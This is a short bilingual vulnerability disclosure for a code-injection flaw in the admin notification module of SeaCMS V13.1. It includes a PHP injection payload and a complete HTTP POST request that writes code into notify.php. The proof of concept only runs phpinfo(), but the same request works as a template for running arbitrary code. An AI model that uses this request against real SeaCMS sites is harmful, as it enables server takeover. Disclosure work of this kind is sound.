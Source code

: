 # SeaCMS V13.1 code injection
*SeaCMS V13.1 代码注入*
## Environment
*环境*
V13
![[Pasted image 20241009103209.png]]
https://www.seacms.net/
## Analysis
*分析*
Injecting malicious code into the notification module of the member message notification module in the backend user module, the unsafe handling of the "notify" variable in the file "admin_notify. php" resulted in the injection of code.
*在后端用户模块的成员消息通知模块的通知模块中注入恶意代码，对文件“admin_notify.php”中的“notify”变量的不安全处理导致代码注入*
![[Pasted image 20241009103256.png]]
## Verify
*证明*
Backend: User ->Member Message Notification ->Notification
*后台:用户->会员消息通知->通知*
![[Pasted image 20241009103505.png]]
```php
;phpinfo();//
```
![[Pasted image 20241009103543.png]]
Successfully injected code
*成功注入代码*
![[Pasted image 20241009103552.png]]
```http
POST /d3kdjs/admin_notify.php?action=set HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Origin: http://localhost
Connection: close
Referer: http://localhost/d3kdjs/admin_notify.php
Cookie: iconSize=16x16; jenkins-timestamper-offset=-28800000; PHPSESSID=fv6b5117hu9kv7fbepjs9ie1n2; XDEBUG_SESSION=PHPSTORM; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4

notify1=";phpinfo();//&notify2=&notify3=
```
![[Pasted image 20241009103842.png]]
Malicious code successfully written to notify.chp file.
*恶意代码成功写入notify.php文件中*
![[Pasted image 20241009103740.png]]